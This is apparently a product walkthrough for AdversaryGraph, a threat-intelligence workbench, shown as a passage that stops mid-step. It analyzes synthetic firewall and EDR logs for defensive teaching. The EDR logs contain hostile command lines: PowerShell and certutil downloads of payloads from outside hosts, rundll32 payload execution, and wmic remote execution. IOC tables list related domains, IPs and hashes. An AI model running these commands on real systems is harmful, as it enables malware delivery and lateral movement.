About AdversaryGraph

AdversaryGraph is a self-hosted AI-assisted CTI-to-detection workbench. It connects raw evidence, threat intelligence, ATT&CK mapping, IOC enrichment, actor context, relationship graph pivots, and report generation into one local workflow.
The core path is simple: raw evidence -> IOC extraction -> enrichment -> relationship graph -> Investigation workspace -> ATT&CK mapping -> report.
The Investigation Goal

The analyst starts with two noisy inputs: firewall logs showing repeated outbound traffic and EDR logs showing suspicious PowerShell, discovery commands, unsigned payload staging, and remote execution leads.
- Create a new Investigation workspace.
- Extract useful observables from raw logs.
- Identify suspicious behavior and likely ATT&CK techniques.
- Send extracted IOCs into IOC Investigation.
- Enrich the IOCs through local DB, OpenCTI, OTX, VirusTotal, urlscan, ThreatFox, and other configured sources.
- Review relationships, evidence ranking, source conflicts, actor leads, and TTP leads.
- Add reviewed evidence to an Investigation workspace.
- Create a Navigator-like TTP layer and send it to the matrix.
- Compare the TTP layer with threat actors and save the result to the investigation.
- Summarize the whole investigation with AI.
- Generate a structured report with the AI assistant.
Synthetic Firewall Logs
The firewall sample simulates repeated outbound connections from one workstation to suspicious IPs and domains.
2026-06-20T08:14:11Z FW01 ALLOW src=10.44.18.23 src_host=FIN-WS-042 dst=103.119.47.104 dst_port=443 sni=power-sync-services.com
2026-06-20T08:17:44Z FW01 ALLOW src=10.44.18.23 src_host=FIN-WS-042 dst=38.60.245.37 dst_port=443 sni=gatewayrvcenter.com
2026-06-20T08:24:31Z FW01 ALLOW src=10.44.18.23 src_host=FIN-WS-042 dst=38.60.245.37 dst_port=80 url=http://metakit.fireant.vn/Software/version.xml
2026-06-20T08:24:35Z FW01 ALLOW src=10.44.18.23 src_host=FIN-WS-042 dst=38.60.245.37 dst_port=80 url=http://metakit.fireant.vn/Software/setup.exe
2026-06-20T08:31:42Z FW01 ALLOW src=10.44.18.23 src_host=FIN-WS-042 dst=38.60.245.37 dst_port=443 sni=m.flach.cn note=opencti-indicator-alias-reddeltaThe pattern matters more than one line: repeated outbound communication, HTTP retrieval of `version.xml` and `setup.exe`, and CTI-linked infrastructure.
Synthetic EDR Logs
2026-06-20T08:24:38Z EDR process_start parent=WINWORD.EXE process=powershell.exe cmd="Invoke-WebRequest -Uri http://metakit.fireant.vn/Software/setup.exe -OutFile C:\ProgramData\Microsoft\setup.exe"
2026-06-20T08:24:51Z EDR file_create path=C:\ProgramData\Microsoft\setup.exe sha256=eb52d1791fc861e459ee14f15ef8d4819a4afde3ac7ce5e8cebdcd5f7840925f signer=unsigned
2026-06-20T08:25:31Z EDR process_start parent=setup.exe process=cmd.exe cmd="cmd.exe /c whoami /all && hostname && ipconfig /all"
2026-06-20T08:26:12Z EDR process_start parent=setup.exe process=nltest.exe cmd="nltest.exe /dclist:corp.local"
2026-06-20T08:27:20Z EDR process_start parent=setup.exe process=rundll32.exe cmd="rundll32.exe C:\ProgramData\Microsoft\msupdate.dat,StartW"
2026-06-20T08:32:03Z EDR process_start parent=rundll32.exe process=wmic.exe cmd="wmic.exe /node:FIN-FS-01 process call create \"cmd.exe /c whoami\""
2026-06-20T08:36:12Z EDR process_start parent=rundll32.exe process=certutil.exe cmd="certutil.exe -urlcache -split -f http://gatewayrvcenter.com/payload.dat C:\ProgramData\Microsoft\cache.bin"Full Flow Presentation

Step 1: Create A New Investigation

Start from the case workspace. Open Investigation and create a new investigation before running analysis. This gives every later result a destination: firewall analysis, EDR analysis, IOC Investigation results, TTP layer, actor-comparison output, AI summary, and final report.
Step 2: Analyze Firewall Logs

Open AI Analysis, select Log / PCAP, and paste or upload only the firewall logs first. Do not write a manual prompt. The Log / PCAP mode already uses an internal AdversaryGraph system prompt to extract IOCs, identify suspicious activity, map behavior to ATT&CK, separate source evidence from enrichment leads, avoid attribution claims, and return a structured analyst result.
Step 3: Add Firewall Analysis To The Investigation
After the firewall analysis completes, click Add to investigation and choose the investigation created in Step 1. This saves the firewall result as structured case evidence.
Step 4: Analyze EDR Logs

Return to AI Analysis -> Log / PCAP and paste or upload the EDR logs as a separate analysis. Do not combine firewall and EDR logs in one run unless you intentionally want one mixed result. The cleaner workflow is one source per run.
Step 5: Add EDR Analysis To The Investigation
After the EDR analysis completes, click Add to investigation and choose the same investigation. The case should now contain at least two evidence nodes: firewall log analysis result and EDR log analysis result.
Step 6: Extract IOCs And Suspicious Activity


| Type | Examples |
|---|---|
| IPs | 103.119.47.104, 38.60.245.37, 166.88.77.186 |
| Domains | power-sync-services.com, gatewayrvcenter.com, metakit.fireant.vn, m.flach.cn |
| URLs | http://metakit.fireant.vn/Software/setup.exe, http://power-sync-services.com/update/check |
| Hashes | eb52d1791fc861e459ee14f15ef8d4819a4afde3ac7ce5e8cebdcd5f7840925f, fd2c2f1bf90592604febf404e5579f89 |


| Technique lead | Why |
|---|---|
| T1059 / T1059.001 | PowerShell and command execution. |
| T1105 | Download of `setup.exe` and `payload.dat`. |
| T1071.001 | HTTP/HTTPS C2-like traffic. |
| T1218.011 | `rundll32.exe` executing a suspicious payload. |
| T1047 | WMI remote execution lead. |
| T1036 | Masqueraded file names and Microsoft-looking staging path. |
Step 7: Investigate Extracted IOCs


Open IOC Investigation, submit the strongest IOC, and run Tier 1 / Tier 2 / Tier 3 enrichment. AdversaryGraph queries enabled sources, including local DB, OpenCTI, OTX, VirusTotal, urlscan, ThreatFox, Malpedia, GreyNoise Community, AbuseIPDB, Shodan, and Censys when configured.
Step 8: Review The Relationship Graph

The relationship graph is the analyst pivot map. Nodes can represent the root IOC, related domains, IPs, actor leads, malware labels, tags, source references, and TTP leads. Each node can be opened or reinvestigated, and focused graph mode hides noisy context until needed.
Step 9: Add IOC Investigation Results To The Investigation


After reviewing IOC Investigation output, add the useful result to the same investigation. The workspace keeps the case structured as log analysis, report analysis, founded TTP layer, IOC list, evidence nodes, relationships, and timeline entries.
This step turns separate analysis screens into one auditable investigation package. The final report should use the reviewed workspace evidence instead of relying on one isolated result.
Step 10: Map TTP Leads To ATT&CK

Use Show TTPs on Matrix and Add TTPs to My TTPs to create a visible ATT&CK layer from the reviewed technique leads. The same layer can be compared with actor profiles, but overlap remains a hypothesis lead rather than attribution.
Step 11: Compare The TTP Layer With Threat Actors

Use Compare + save result from the Investigation page. AdversaryGraph compares all TTPs in the active investigation against actor profiles and saves the top overlap leads, shared technique IDs, and similarity scores back into the case timeline.
Step 12: Summarize The Investigation With AI

Use Complete AI analysis to summarize the whole case: log-analysis findings, IOC investigation results, TTP layer, actor-comparison leads, source caveats, and next actions. The summary is saved as another evidence node in the 